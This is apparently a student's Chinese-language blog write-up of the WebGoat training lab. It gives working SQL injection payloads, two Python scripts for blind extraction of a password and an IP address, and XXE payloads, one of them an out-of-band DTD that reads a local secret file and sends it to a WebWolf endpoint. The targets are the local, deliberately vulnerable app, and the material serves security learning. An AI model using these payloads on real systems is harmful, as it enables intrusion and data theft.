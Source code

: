 ```yaml
---
title: webgoat
date: 2018-10-16 20:44:52
tags:
thumbnail: "https://s1.ax1x.com/2018/10/17/id8t2j.jpg"
---
```


新版wp都没有，旧版又太丑，哭唧唧

然鹅网络安全课by兄嘚要我们演示这个，记录一下坑们x

新版wp真的好少，，，就一个英语艰难的老铁在油管发了个视频。。。心累

顺口一提该我演示的这天翘了课去参加PCC技术考察志愿者了，公费旅游加自助餐可海星，与外国友人和一些学长学姐的交流也灰常nice~比在学校里听无聊的课和面对专业认证的专家有意思多了好叭

***

### 安装

下不下来。。。docker又因为docker-compose版本不对各种报错。。。

一个神奇的童鞋却能下，，，直接执行就好 `java -jar webgoat-server-8.0.0.VERSION.jar [--server.port=8080] [--server.address=localhost]` webwolf也一样，端口换成9090就好

然后如果你要用bp而且它也用8080的话得在浏览器（窝用的插件）和bp设置那都改，血的教训QAQ

### introduction

#### webwolf

要都打开再在webgoat里注册后那个账号才能在webgoat里登录~个人感觉webwolf就像傻瓜版vps一样

### general

#### HTTP Proxies

按它的几个要点改了很久（微笑

最后发现两个坑：

- 改为get方式参数就得跟在路径后了，可以直接使用bp的修改request方式来自动更改
- Change the input value 'changeMe' to 'Requests are tampered easily'这句话的意思不系吧参数名改成这个！而是值！！！怀疑自己英语理解能力呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜

### Injection Flaws

这什么杀马特HSQLDB数据库。。。它用Java已经很不爽了。。。

#### SQL Injection (advanced)

`Dave' union select userid,user_name, password,cookie,null,null,null from user_system_data -- `

（最后加空格）这列数猜的窝，，，pia

真鸡儿糕级。。。表名16位随机根本注不粗好叭？？？源码里还特意加一句注释 `Make it more random at runtime (good luck guessing)` 就是让你猜不到？？？好在它良心发现输出到log里控制台可以看见，于是register里注吖，构造语句为true返回false哒

源码： ` String checkUserQuery = "select userid from " + USERS_TABLE_NAME + " where userid = '" + username_reg + "'";` 

脚本（虽然超想把源码里的密码直接po。。。）：

```
import requests
import json

result=''
url='http://localhost:8080/WebGoat/SqlInjection/challenge'
cookies={
    'JSESSIONID':'xxx',
    '__utma':'xxx',
    'WEBWOLFSESSION':'xxx'
}
a=''
ll=''
for i in range(1,30):
    for j in range(33,127):
        a=ll+chr(j)
        re='tom\' and (select left(password,'+str(i)+') from challenge_users_随机数 where userid=\'tom\')=\''+a+'\'-- '
        data={
            'username_reg':re,
            'email_reg':'a@a',
            'password_reg':'a',
            'confirm_password_reg':'a'
        }
        print(i,a)
        r=requests.put(url=url,cookies=cookies,data=data)
        #print(url,r.content)
        all=json.loads(r.content)
        #print(all["lessonCompleted"])
        if(all["lessonCompleted"]):
            continue
        else:
            ll+=chr(j)
            break
print(ll)
```

气气，好慢，而且明明都congratulation窝了为什么不给我绿油油的勾勾！气fufu

#### SQL Injection

这顺序到底是怎么想的。。。先难后易

`Smith' or '1'='1  ` 字符型

`101 or 1=1` 数字型

#### SQL Injection (mitigation)

都提示你了注入点不是输入ip那了 `Note: The submit field of this assignment is **NOT** vulnerable for an SQL injection.` 一看这种下意识就排序好叭

这数据库语法真的是mmp，试了半天，啥函数都米有

```
import requests
import json

result=''
url='http://localhost:8080/WebGoat/SqlInjection/servers?column=(case when (select ip from servers where hostname=\'webgoat-dev\')=\'192.168.4.0\' then id else ip end)'
cookies={
    'JSESSIONID':'xxx',
    '__utma':'xxx',
    'WEBWOLFSESSION':'xxx'
}
for i in range(0,10):
    for j in range(0,10):
        ip='192.168.'+str(i)+'.'+str(j)
        #print(ip)
        urll='http://localhost:8080/WebGoat/SqlInjection/servers?column=(case when (select ip from servers where hostname=\'webgoat-dev\')=\''+ip+'\' then id else ip end)'
        r=requests.get(url=urll,cookies=cookies)
        #print(r.content)
        all=json.loads(r.content)
        if(all[0]["id"]=="1"):
            print(ip)
```

~~窝简直是天才~~ 

#### XXE

第一次尝试xxe诶~以前只听嗦过~

按前面的讲解和教程

`<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>  ` 

爆出好长一段报错

最后查出是 `file:///` 只能用于linux哟~windows下要用 `file:///C:/` 然后还温馨地提示了C盘下不能有中文字符的文件夹？？点开果然系中国人23333顺手一点博客。。。劈头盖脸全是亲子教育，程序猿家长，害啪

第二题是把Content-Type改成application/xml就好惹，因为也会接受xml，惨啊

第三个没回显的。。。mmp

- windows下路径： `c:/Users/{USER}/.webgoat-8.0.0.M21/XXE/secret.txt` 
- 上传到webwolf后文件路径  `http://localhost:9090/files/{username}/{filename}` 
- landing路径 `ip:port/landing` 

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///C:/Users/lenovo/.webgoat-8.0.0.M21/XXE/secret.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?text=%file;'>"> 
%all;
```

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/files/QAQQQQ/attack.dtd">
%remote;
]>
<comment>
  <text>test&send;</text>
</comment>
```

第一下各种小细节错各种报错，还是自己不够稳重，唉

### Authentication Flaws

#### Authentication Bypasses

傻瓜操作，改名字，，，窝还多余地改了后面的验证方式。。

***

嗯就做到这儿，，，演示很水。。老师很随意（怀疑他寄几根本没用过webgoat

后面没有动力鞭策着，，米有肾力做了qvq

***

woc要写报告。。。，好的叭，换文明的语言重写一波，再做几题。。